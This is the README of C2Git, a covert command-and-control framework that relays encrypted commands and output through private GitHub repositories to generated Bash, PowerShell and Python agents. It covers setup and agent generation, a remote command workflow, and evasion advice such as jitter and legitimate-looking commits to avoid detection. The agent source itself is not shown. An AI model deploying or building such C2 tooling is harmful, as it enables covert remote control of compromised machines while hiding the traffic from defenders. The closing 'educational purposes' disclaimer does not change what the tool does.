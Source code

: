 # C2Git - Command & Control over Git

C2Git is a covert command and control (C2) framework that uses Git repositories as a communication channel between the master and slave nodes. It provides a secure way to execute commands on remote systems while hiding the C2 traffic in legitimate-looking Git commits.

## Quick Start

### Installation

1. Clone the repository:
```bash
git clone https://github.com/yourusername/c2git.git
cd c2git
```

2. Install dependencies:
```bash
pip install -r requirements.txt
```

3. Create a private GitHub repository and generate a Personal Access Token (PAT)

4. Copy example config and edit:
```bash
cp config/.env.example config/.env
# Edit config/.env with your GitHub details and encryption key
```

### Running Master

```bash
python c2git.py master
```

### Generating and Running Agents

Generate agent files:
```bash
# Generate Bash agent slave.sh in current dir
python c2git.py generate sh

# Generate PowerShell agent
python c2git.py generate ps1 -o slave.ps1

# Generate Python agent
python c2git.py generate py -o /custom/path/slave.py
```

Run an agent:
```bash
# Bash agent
./slave.sh

# PowerShell agent (not tested at all)
.\slave.ps1 -Verbose

# Python agent (a little bit tested)
python slave.py -v
```

## Technical Details

### Communication Protocol

C2Git uses a state-based protocol stored in a `state` file:

- **State 0**: Command sent, waiting for execution
- **State 1**: Response ready, waiting for master to read
- **State 2**: Ready for new command

### Branch Naming

Each slave gets a unique branch name using the first 10 characters of the MD5 hash of its hostname:
```python
branch_name = hashlib.md5(hostname.encode()).hexdigest()[:10]
```
### Encryption

All commands and responses are encrypted using AES-256-CBC with PBKDF2 key derivation:
- 100,000 iterations
- Random salt
- Base64 encoded output

#### Manual Encryption/Decryption

Encrypt a string:
```bash
python c2git.py encrypt "hello world"
```

Decrypt a string:
```bash
python c2git.py decrypt "U2FsdGVkX19..."
```

## Configuration Methods

### 1. Environment Variables

```bash
export C2GIT_REPO_USER="github_username"
export C2GIT_REPO_NAME="repo_name"
export C2GIT_GITHUB_TOKEN="github_pat_11..."
export C2GIT_ENCRYPTION_KEY="your_secret_key"
```

### 2. Config File (config/config.yaml)

```yaml
repo_user: "github_username"
repo_name: "repo_name"
github_token: "github_pat_11..."
encryption_key: "your_secret_key"
```

### 3. .env File (config/.env)

```
C2GIT_REPO_USER=github_username
C2GIT_REPO_NAME=repo_name
C2GIT_GITHUB_TOKEN=github_pat_11...
C2GIT_ENCRYPTION_KEY=your_secret_key
```

## Example Workflow

1. **Slave Initialization**:
```bash
./slave.sh -v
# 1. Creates local repo
# 2. Generates branch from hostname
# 3. Creates host file with encrypted hostname
# 4. Sets state=2 (ready)
```

2. **Master Reads New Session**:
```bash
python c2git.py master
# In C2Git console:
sessions
# Shows new session with hostname
```

3. **Send Command**:
```bash
# In C2Git console:
interact abc123def0
> whoami
# 1. Encrypts "whoami"
# 2. Writes to command.txt
# 3. Sets state=0
```

4. **Slave Executes**:
```bash
# Slave detects state=0
# 1. Decrypts command
# 2. Executes whoami
# 3. Encrypts output
# 4. Writes to response.txt
# 5. Sets state=1
```

5. **Master Reads Response**:
```bash
# Master detects state=1
# 1. Reads response.txt
# 2. Decrypts response
# 3. Displays output
# 4. Sets state=2
```

## Features

- Covert communication through Git repositories
- AES-256 encryption for commands and responses
- Support for multiple simultaneous sessions
- Cross-platform agents (Linux, macOS, Windows)
- Job queuing and management
- Interactive session mode
- Command completion
- Heartbeat monitoring
- Session persistence

## Security Considerations

1. **Git Repository**:
   - Use private repositories only
   - Implement IP restrictions
   - Regular token rotation

2. **Communication**:
   - All data encrypted with AES-256
   - Random check intervals
   - Added jitter to avoid detection
   - No plaintext sensitive data

3. **Operational Security**:
   - Clean commit history
   - Legitimate-looking commit messages
   - Regular cleanup of old sessions
   - Secure key management

## Dependencies

- Python 3.7+
- GitPython
- prompt_toolkit
- PyYAML
- cryptography
- prettytable

## Disclaimer

This tool is for educational purposes only. Users are responsible for complying with applicable laws and regulations.
